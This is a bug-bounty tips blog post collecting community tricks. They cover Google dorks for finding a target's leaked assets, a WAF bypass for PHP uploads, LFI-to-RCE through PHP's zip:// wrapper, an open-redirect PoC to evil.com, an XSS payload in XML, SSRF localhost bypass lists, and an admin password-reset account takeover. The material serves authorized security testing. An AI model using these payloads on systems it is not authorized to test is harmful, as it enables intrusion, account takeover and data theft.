



# Bug Bounty Tips #10

Time has come for another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing their knowledge and tools for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 10th part and in each part we are publishing 10 or more tips. Let’s start!

## 1\. List of 24 Google dorks for bug bounties

By [@hunter0x7](https://twitter.com/hunter0x7)  
Source: [link](https://twitter.com/hunter0x7/status/1334818003179933696)

Here’s a set of handy Google dorks for identifying accounts on various third party websites that could be related to our target company:

```bash
site:codepad.co "company"
site:scribd.com "company"
site:npmjs.com "company"
site:npm.runkit.com "company"
site:libraries.io "company"
site:ycombinator.com "company"
site:coggle.it "company"
site:papaly.com "company"
site:google.com "company"
site:trello.com "company"
site:prezi.com "company"
site:jsdelivr.net "company"
site:codepen.io "company"
site:codeshare.io "company"
site:sharecode.io "company"
site:pastebin.com "company"
site:repl.it "company"
site:productforums.google.com "company"
site:gitter.im "company"
site:bitbucket.org "company"
site:zoom.us inurl:"company"
site:atlassian.net "company"
site:s3.amazonaws.com inurl:"company"
inurl:gitlab "company"
```

Using these dorks we can discover vast amount of new content, assets, sensitive information, source codes and other data belonging to our target.

**Protip**: There are number of projects that aim to automate the dorking process. Here are 3 very good ones:

-   [https://github.com/A3h1nt/Grawler](https://github.com/A3h1nt/Grawler)
-   [https://github.com/Zarcolio/sitedorks](https://github.com/Zarcolio/sitedorks)
-   [https://github.com/adnane-X-tebbaa/GRecon](https://github.com/adnane-X-tebbaa/GRecon)

## 2\. WAF bypass during exploitation of file upload

By [@0xInfection](https://twitter.com/0xInfection)  
Source: [link](https://twitter.com/0xInfection/status/1340758820042256384)

This is a very curious case of a WAF (Web Application Firewall) bypass discovered during exploitation of a file upload vulnerability. The ‘.php’ file extension was blocked, but the author was able to bypass it using the following trick:

```bash
/?file=xx.php    <-- Blocked
/?file===xx.php  <-- Bypassed
```

It is unclear which particular WAF was deployed on the affected target site, but it might have been some kind of a custom solution using only a simple regex rule.

Who would have thunk it? Please share in the comment section if you have some more details or ideas about this vulnerability.

## 3\. Turning LFI to RCE in PHP using ZIP wrapper

By [@Saims0n](https://twitter.com/Saims0n)  
Source: [link](https://twitter.com/Saims0n/status/1340119055357734912)

Now this is a really cool bug bounty tip for PHP based websites where (1) we can upload zip files and (2) we have found a LFI (Local File Inclusion) vulnerability.

Using PHP ZIP wrapper (zip://) we can leverage the LFI vulnerability and achieve RCE (Remote Code Execution) on the site. Here’s how:

1.  Create a .php file (rce.php)
2.  Compress it to a .zip file (file.zip)
3.  Upload your .zip file on the vulnerable web application
4.  Trigger your RCE via accessing:  
    `https://site.com/index.php?page=zip://path/file.zip%23rce.php`

The %23 value is the hash symbol (#), which serves as a delimiter between the archive filename and the filename inside the archive that we want to unzip.

Using this trick we have basically circumvented the file upload restrictions of the web application disallowing us to upload a php file directly.

Note that PHP supports all these compression wrappers:

```bash
zlib://    example: compress.zlib://...
bzip2://   example: compress.bzip2://...
zip://     example: zip://archive.zip#dir/file.txt
rar://     example: rar://<url encoded archive name>[*][#[<url encoded entry name>]]
```

For more details, see the [Supported Protocols and Wrappers](https://www.php.net/manual/en/wrappers.php) in PHP.

## 4\. Search for CVEs of specific year with Nuclei

By [@pdnuclei](https://twitter.com/pdnuclei)  
Source: [link](https://twitter.com/pdnuclei/status/1340311918976716800)

Did you know that you can easily search for particular CVEs with the Nuclei scan engine?

Using wildcard glob support in Nuclei, you can quickly scan for CVEs of specific years. For example, the following command will scan for all the CVEs assigned in year 2020:

```bash
echo https://example.com | nuclei -t 'cves/CVE-2020*'
```



Pretty cool! All you need is to get Nuclei from here:

-   [https://github.com/projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei)

And then update the templates:

```bash
nuclei -update-templates
```

That’s it!

**Protip**: Check also these bug bounty tips related to Nuclei:

-   [BBT6-8](https://www.infosecmatter.com/bug-bounty-tips-6-sep-07/#8-fingerprinting-with-shodan-and-nuclei-engine) – Fingerprinting with Shodan and Nuclei engine
-   [BBT9-9](https://www.infosecmatter.com/bug-bounty-tips-9-nov-16/#9-scan-jira-for-known-cves-and-misconfigurations) – Scan Jira for known CVEs and misconfigurations

## 5\. Search for login portals and default creds

By [@pdnuclei](https://twitter.com/pdnuclei)  
Source: [link](https://twitter.com/pdnuclei/status/1340311918976716800)

Here’s a useful and quick command combo to find actively running web servers from a list of hosts and identify login portals:

```bash
cat hosts.txt | httprobe -c 300 | ffuf -w - -u FUZZ -mr "assword"
```

This is what the command does in detail:

1.  Produce list of alive URLs from the provided list of hosts (domains or IP addresses)
2.  Match URLs containing a login form (containing “assword” string somewhere on the page)



Now to search for default credentials for the identified portals / admin panels, we could use the [default-http-login-hunter.sh](https://www.infosecmatter.com/default-password-scanner-default-http-login-hunter-sh/) script, which simply takes a list of URLs as a parameter.

The whole combo would then look like this:

```bash
cat hosts.txt | httprobe -c 300 | ffuf -w - -u FUZZ -mr "assword" -s > login_portals.txt
default-http-login-hunter.sh login_portals.txt
```

Get all the necessary tools here:

-   [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)
-   [https://github.com/tomnomnom/httprobe](https://github.com/tomnomnom/httprobe)
-   [https://github.com/InfosecMatter/default-http-login-hunter](https://github.com/InfosecMatter/default-http-login-hunter)

## 6\. How to find access control bugs

By [@hakluke](https://twitter.com/hakluke)  
Source: [link](https://twitter.com/hakluke/status/1339209648813981696)

The following excellent advice from none other than [@hakluke](https://twitter.com/hakluke) is practically a golden template on how to find access control bugs in web applications:

1.  Firstly I have two users, one with high privileges (admin), and one with low privileges (joe). I log in as the admin first, and use all the functionality.
2.  Whenever I do something that should be reserved for an administrator, I send the request over to Repeater.
3.  Once I have a stack of them, I get the cookies from the “joe” account and insert them into those requests. I send them and analyze the difference in response to see if it worked. If it did, I report it!
4.  Then, I do the same thing but without any cookies or session tokens to see if it works unauthenticated.

You would be amazed at how many applications appear totally secure, and then there’s just one or two endpoints that are vulnerable. This is because many web frameworks kind of suck at implementing roles and permissions.

Web frameworks have been very successful at lessening the amount of injection vulnerabilities we see, but permissions still need to be defined by a human, so they’re more prone to errors.

**Protip**: To automate this process, checkout the [Authorize](https://github.com/portswigger/autorize) Burp Suite plugin and see also [this](https://www.youtube.com/watch?v=3K1-a7dnA60) video tutorial (YouTube).

## 7\. Automated 403 Forbidden bypasser tools

By [@santosomar](https://twitter.com/santosomar), [@lobuhisec](https://twitter.com/lobuhisec), [@iam\_j0ker](https://twitter.com/iam_j0ker)  
Source: [link1](https://twitter.com/santosomar/status/1338095384602824707), [link2](https://twitter.com/lobuhisec/status/1329705441883017218), [link3](https://twitter.com/iam_j0ker/status/1333222572637396992)

There are number of known manual techniques on how to try to bypass 403 Forbidden errors when accessing restricted content (e.g. admin panels, backup folders, config files, logs etc.).

Here’s a list of bug bounty tips that has been shared on this topic so far:

-   [BBT4-5](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#5-access-admin-panel-by-tampering-with-uri) – Access Admin panel by tampering with URI
-   [BBT4-6](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#6-bypass-403-forbidden-by-tampering-with-uri) – Bypass 403 Forbidden by tampering with URI
-   [BBT6-6](https://www.infosecmatter.com/bug-bounty-tips-6-sep-07/#6-trick-to-access-admin-panel-by-adding-20) – Trick to access admin panel by adding %20
-   [BBT8-11](https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/#11-tips-on-bypassing-403-and-401-errors) – Tips on bypassing 403 and 401 errors
-   [BBT9-1](https://www.infosecmatter.com/bug-bounty-tips-9-nov-16/#1-bypass-403-errors-by-traversing-deeper) – Bypass 403 errors by traversing deeper

Now there is a new cool Burp Suite extension called [403Bypasser](https://github.com/sting8k/BurpSuite_403Bypasser), which automates bypassing of 403 Forbidden errors.

If you don’t have Burp Suite, you can also use shell scripts such as [byp4xx.sh](https://github.com/lobuhi/byp4xx/) or [bypass-403.sh](https://github.com/iamj0ker/bypass-403), which work very similarly.

Get these tools from here:

-   [https://github.com/sting8k/BurpSuite\_403Bypasser](https://github.com/sting8k/BurpSuite_403Bypasser)
-   [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
-   [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)

## 8\. Bypass WAF with Unicode characters

By [@h4x0r\_dz](https://twitter.com/h4x0r_dz)  
Source: [link](https://twitter.com/h4x0r_dz/status/1335880542353559552)

When you are looking for bugs like SSRF (Server Side Request Forgery), XSS (Cross Site Scripting), Open Redirect etc. and there is a blacklisted character, you can try to bypass it using an equivalent Unicode character.

The author ([@h4x0r\_dz](https://twitter.com/h4x0r_dz)) found an Open Redirect vulnerability and found that the dot (.) character was blocked. He was able to bypass it using the Chinese dot (。) character “%E3%80%82”.

-   Here’s a PoC example:  
    `redirect_to=////evil%E3%80%82com`

-   This is equivalent to:  
    `redirect_to=////evil.com`

To find these alternate equivalent Unicode characters, just go to [https://compart.com/en/unicode](https://compart.com/en/unicode) and search for the blacklisted character. You will find various Unicode characters to use for your testing.

**Protip**: Check also [this](https://www.youtube.com/watch?v=f1XCvDCO22U) video (YouTube) on Unicode hacking tips.

## 9\. List of 48 open redirect parameters from HackerOne

By [@ptswarm](https://twitter.com/ptswarm)  
Source: [link](https://twitter.com/ptswarm/status/1333425260218249216)

This is a massive list of 48 Open redirect parameters compiled from every disclosed [HackerOne](https://www.hackerone.com/) report ever, composed in one single [wordlist](https://github.com/ptswarm/ptswarm-twitter/blob/main/2020-11-30-open-redirect-params.txt) (2020-11-30-open-redirect-params.txt):

```bash
/[redirect]
?targetOrigin=[redirect]
?fallback=[redirect]
?query=[redirect]
?redirection_url=[redirect]
?next=[redirect]
?ref_url=[redirect]
?state=[redirect]
?l=[redirect]
?redirect_uri=[redirect]
?forum_reg=[redirect]
?return_to=[redirect]
?redirect_url=[redirect]
?return_url=[redirect]
?host=[redirect]
?url=[redirect]
?redirectto=[redirect]
?return=[redirect]
?prejoin_data=[redirect]
?callback_url=[redirect]
?path=[redirect]
?authorize_callback=[redirect]
?email=[redirect]
?origin=[redirect]
?continue=[redirect]
?domain_name=[redirect]
?redir=[redirect]
?wp_http_referer=[redirect]
?endpoint=[redirect]
?shop=[redirect]
?qpt_question_url=[redirect]
?checkout_url=[redirect]
?ref_url=[redirect]
?redirect_to=[redirect]
?succUrl=[redirect]
?file=[redirect]
?link=[redirect]
?referrer=[redirect]
?recipient=[redirect]
?redirect=[redirect]
?u=[redirect]
?hostname=[redirect]
?returnTo=[redirect]
?return_path=[redirect]
?image=[redirect]
?requestTokenAndRedirect=[redirect]
?retURL=[redirect]
?next_url=[redirect]
```

The top 5 most popular are:

```bash
/[redirect]
?url=[redirect]
?next=[redirect]
?redirect_uri=[redirect]
?return_to=[redirect]
```

**Protip**: Note that all those 48 potentially vulnerable parameters are already present in the [Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns) project maintained by [@1ndianl33t](https://twitter.com/1ndianl33t). All you need to do is to call [GF](https://github.com/tomnomnom/gf) (by [@TomNomNom](https://twitter.com/TomNomNom)) on your URL list like this:

```bash
cat urls.txt | gf redirect
```

You will get all URLs that could be potentially vulnerable to Open redirect vulnerabilities.

Get GF and the Gf-patterns from here:

-   [https://github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)
-   [https://github.com/1ndianl33t/Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns)

## 10\. Mass account takeover via BAC

By [@krizzsk](https://twitter.com/krizzsk)  
Source: [link](https://twitter.com/krizzsk/status/1340998220902625280)

Here’s an inspiring mini write-up about leveraging BAC (Broken Access Control) and achieving mass account takeover with a little bit of “security by obscurity” twist:

1.  Password reset endpoint `/api/u/resetPwd` takes POST parameter username and sends email containing the password reset link
2.  That “u” component in the API endpoint looked weird (u=user).
3.  That means that there must exist an admin password reset API endpoint as well.
4.  Tried `/api/admin/resetPwd` , `/api/administrator/resetPwd` , nothing worked.
5.  Tried `/api/su/resetPwd` –> worked!
6.  The above API would set new password as `username+ab12*`.
7.  For example for username = admin, the password after reset would be `adminab12*`.
8.  Done! Mass account takeover.

The biggest issue here was that the author discovered and admin API endpoint for resetting the password, which lacked any authorization checks.

This little example proves that thinking out-of-the-box and digging deep can really pay off in the bug bounty hunting.

## 11\. Top 20 search engines for hackers

By [@ofjaaah](https://twitter.com/ofjaaah)  
Source: [link](https://twitter.com/ofjaaah/status/1329455885274451976)

Here’s a list of 20 search engines for hackers, penetration testers, bug hunters, but also for threat analysts, reverse engineers and other cyber security investigators:

-   [censys.io](https://censys.io/) – Censys Search Engine
-   [shodan.io](https://www.shodan.io/) – Search engine for Internet-connected devices
-   [viz.greynoise.io](https://viz.greynoise.io/) – GreyNoise Visualizer
-   [zoomeye.org](https://www.zoomeye.org/) – Cyberspace Search Engine
-   [onyphe.io](https://onyphe.io/) – Cyber Defense Search Engine
-   [wigle.net](https://wigle.net/) – Wireless Network Mapping
-   [intelx.io](https://intelx.io/) – Intelligence X
-   [fofa.so](https://fofa.so/) – Cyberspace Security Search Engine
-   [hunter.io](https://hunter.io/) – OSINT Search Engine
-   [zorexeye.com](https://zorexeye.com/) – Hacker’s Search Engine
-   [pulsedive.com](https://pulsedive.com/) – Threat intelligence Search Engine
-   [netograph.io](https://netograph.io/) – Mapping the deep structure of the web
-   [vigilante.pw](https://vigilante.pw/) – Breached Database Directory
-   [pipl.com](https://pipl.com/pipl-search) – Search engine for real identity profiles
-   [abuse.ch](https://abuse.ch/) – Threat intelligence, malwares etc.
-   [maltiverse.com](https://maltiverse.com/) – Open IoC Search Engine, Threat Intel
-   [insecam.org](https://insecam.org/) – World biggest online cameras directory
-   [spyse.com](https://spyse.com/) – Internet Assets Search Engine
-   [dnsdumpster.com](https://dnsdumpster.com/) – DNS recon & research
-   [phonebook.cz](https://phonebook.cz/) – Search for subdomains, email addresses, or URLs

## 12\. XSS payload in an XML file

By [@renniepak](https://twitter.com/renniepak)  
Source: [link](https://twitter.com/renniepak/status/1339523240235069440)

Did you know that you can serve a XSS (Cross Site Scripting) payload from a XML file?

Here’s an example xss.xml:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://www.w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```



Tested to work on Chrome, Firefox and Safari browsers, possibly others as well.

**Protip**: Have a look on the XSS cheat sheet from PortSwigger listing various content-types [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#content-types).

## 13\. SSRF Bypass list for localhost (127.0.0.1)

By [@LooseSecurity](https://twitter.com/LooseSecurity), [@ADITYASHENDE17](https://twitter.com/ADITYASHENDE17), [@imranparray101](https://twitter.com/imranparray101), [@h43z](https://twitter.com/h43z)  
Source: [link](https://twitter.com/LooseSecurity/status/1331270289733324805)

(1) This is a list of possible bypasses for exploiting of SSRF (Server Side Request Forgery) vulnerabilities:

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

(2) You can also use Unicode characters for bypassing, as it was advised on the tweet by [@ADITYASHENDE17](https://twitter.com/ADITYASHENDE17):

```bash
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/
```

(3) You can also utilize the [nio.io](https://nip.io/) service, which is a simple wildcard DNS service for any IP address, as pointed out by [@imranparray101](https://twitter.com/imranparray101). Here’s how it works:

-   `<anything>.nip.io` will resolve to `<anything>`

A real world example:

-   `http://127.0.0.1.nip.io:8080` will point to `127.0.0.1:8080`

(4) Lastly, [@h43z](https://twitter.com/h43z) also shared this list of SSRF bypasses:

```bash
http://0xd8.0x3a.0xd6.0xe3
http://0xd83ad6e3
http://0xd8.0x3ad6e3
http://0xd8.0x3a.0xd6e3
http://0330.072.0326.0343
http://000330.0000072.0000326.00000343
http://033016553343
http://3627734755
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
http://216.0x3a.00000000326.0xe3
```

SSRF vulnerabilities are very serious, because they allow an attacker to:

-   Access services on the loopback interface running on the remote server
-   Scan internal network an potentially interact with the discovered services
-   Read local files on the server using file:// protocol handler
-   Move laterally / pivoting into the internal environment

What we are aiming for with the above cases is to sort of “port scan” the remote server and access other services which might be running on it, e.g. find an internal administrative interface running on port http/8080 or similar things.

## Conclusion

That’s it for this part of the [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/).

Massive thanks to all the authors for sharing their tools and tips:

-   [@hunter0x7](https://twitter.com/hunter0x7)
-   [@0xInfection](https://twitter.com/0xInfection)
-   [@Saims0n](https://twitter.com/Saims0n)
-   [@pdnuclei](https://twitter.com/pdnuclei)
-   [@hakluke](https://twitter.com/hakluke)
-   [@santosomar](https://twitter.com/santosomar)
-   [@lobuhisec](https://twitter.com/lobuhisec)
-   [@iam\_j0ker](https://twitter.com/iam_j0ker)
-   [@h4x0r\_dz](https://twitter.com/h4x0r_dz)
-   [@ptswarm](https://twitter.com/ptswarm)
-   [@krizzsk](https://twitter.com/krizzsk)
-   [@ofjaaah](https://twitter.com/ofjaaah)
-   [@renniepak](https://twitter.com/renniepak)
-   [@LooseSecurity](https://twitter.com/LooseSecurity)
-   [@ADITYASHENDE17](https://twitter.com/ADITYASHENDE17)
-   [@imranparray101](https://twitter.com/imranparray101)
-   [@h43z](https://twitter.com/h43z)

Make sure to follow them on Twitter, they will help you stay on top of the bug bounty game!
